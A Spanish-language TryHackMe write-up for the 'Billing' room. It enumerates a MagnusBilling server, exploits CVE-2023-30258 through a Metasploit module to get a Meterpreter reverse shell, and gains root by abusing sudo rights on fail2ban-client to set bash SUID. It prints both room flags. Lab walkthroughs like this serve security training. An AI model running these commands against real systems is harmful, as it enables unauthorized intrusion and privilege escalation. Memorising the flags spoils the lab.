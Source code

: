 # Billing

![image.png](./imagenes/Billing/image.png)

Maquinas a utilizar Kali Linux y https://tryhackme.com/room/billing

- IP de la Maquina victima: 10.10.130.193
    
    ![image.png](./imagenes/Billing/image%201.png)
    
- Vamos a mirar nuestra IP
    
    ```bash
    ifconfig
    ```
    
    ![image.png](./imagenes/Billing/image%202.png)
    
    En este caso como estamos en un VPN nuestra Ip esta en el interface tun0: IP : **10.21.203.172**
    

---

- Hacemos un nmap de la maquina victima
    
    ```bash
    sudo nmap -p- -sS -sV --min-rate=5000 -n -vvv -Pn 10.10.130.193
    ```
    
    ![image.png](./imagenes/Billing/image%203.png)
    

- Miramos lo que corre por el puerto 80
    
    ![image.png](./imagenes/Billing/image%204.png)
    
    Vemos que lanza un software llamado `MagnusBilling`
    
    <aside>
    💡
    
    MagnusBilling es un software de telecomunicaciones que funciona como softswitch y sistema de facturación para proveedores de servicios VoIP (telefonía IP). Es un sistema open source que permite gestionar y facturar llamadas telefónicas a fijos y móviles, realizar llamadas masivas, gestionar tarjetas telefónicas, DIDs (números de teléfono virtuales), envío de SMS, y cuenta con módulos para tienda de llamadas, devolución de llamada (callback), sistemas IVR (respuesta de voz interactiva), llamadas en espera, entre otros.
    
    </aside>
    
    ![image.png](./imagenes/Billing/image%205.png)
    
    Un formulario de login , pero no tenemos ninguna credencial todavía.
    
- Usamos Gobuster para hacer Fuzzing web.
    
    ```bash
    gobuster dir -u http://10.10.130.193/mbilling/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,md -t 50
    ```
    
    ![image.png](./imagenes/Billing/image%206.png)
    

- Miramos el contenido del archivo Readme.md
    
    ![image.png](./imagenes/Billing/image%207.png)
    
    Nos muestra la versión del software que utiliza la web `MagnusBilling version 7.x.x` 
    
- Haciendo una búsqueda en internet vemos que esta versión esta asociada a un CVE: `**CVE-2023-30258**`
    
    ![image.png](./imagenes/Billing/image%208.png)
    

- Vamos a probar si tenemos algún exploit en metasploit para esta vulnerabilidad. Para ello abrimos Metasploit desde el menú.
    
    
    `search CVE-2023-30258`
    
    ![image.png](./imagenes/Billing/image%209.png)
    
    - Escogemos la opción 0 y listamos opciones modulo.
        
        `use 0`
        
        `show options`
        
        ![image.png](./imagenes/Billing/image%2010.png)
        
    
    - Completamos las opciones que nos hagan faltan
        
        `set RHOSTS 10.10.130.193`
        
        `set SRVHOST 10.21.203.172`
        
        `set LHOST 10.21.203.172`
        
        ![image.png](./imagenes/Billing/image%2011.png)
        
    
    - Lanzamos el exploit
        
        `run`
        
        ![image.png](./imagenes/Billing/image%2012.png)
        
        Conseguimos una sesión de metrepreter.
        
    - Lanzamos una shell
        
        `shell`
        
        ![image.png](./imagenes/Billing/image%2013.png)
        
    
    - Nos movemos hasta la carpeta **/home/magnus** y listamos
        
        `ls`
        
        ![image.png](./imagenes/Billing/image%2014.png)
        
    - Miramos el contenido del archivo user.txt
        
        `cat user.txt`
        
        ![image.png](./imagenes/Billing/image%2015.png)
        
        Ya tenemos la primera Flag: `THM{4a6831d5f124b25eefb1e92e0f0da4ca}`
        

---

- Vamos a intentar escalar privilegios
    - Probamos con sudo -l
        
        `sudo -l`
        
        ![image.png](./imagenes/Billing/image%2016.png)
        
        Vemos que el binario fail2ban-client se puede ejecutar como root sin contraseña
        
        Buscando en internet “fail2ban-client exploit” he encontrado la web: [https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/fail2ban-command/](./imagenes/Billing/https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/fail2ban-command/) que nos muestra el siguiente exploit.
        
        ![image.png](./imagenes/Billing/image%2017.png)
        
    - Vamos a poner en practica el exploit que nos muestra.
        
        `sudo /usr/bin/fail2ban-client status`
        
        Esto nos mostrara un listado el estado actual del servicio Fail2ban en tu sistema.
        
        escogemos uno. En mi caso **`ast-cli-attc`**
        
        `sudo /usr/bin/fail2ban-client get **ast-cli-attck** actions`
        
        `sudo /usr/bin/fail2ban-client set ast-cli-attck addaction evil
        sudo /usr/bin/fail2ban-client set ast-cli-attck action evil actionban "chmod +s /bin/bash”`
        
        `sudo /usr/bin/fail2ban-client set ast-cli-attck banip 1.2.3.5`
        
        `/bin/bash -p`
        
        ![image.png](./imagenes/Billing/image%2018.png)
        
    - Miramos el ID de nuestro usuario
        
        `id`
        
        ![image.png](./imagenes/Billing/image%2019.png)
        
        Vemos que tenemos privilegios de root
        
- Nos movemos ala carpeta root
    
    ![image.png](./imagenes/Billing/image%2020.png)
    
    Vemos que tenemos un archivo root.txt. vamos a ver lo que contiene.
    
    `cat root.txt`
    
    ![image.png](./imagenes/Billing/image%2021.png)
    
    Nos encontramos ante la segunda Flag: `THM{33ad5b530e71a172648f424ec23fae60}`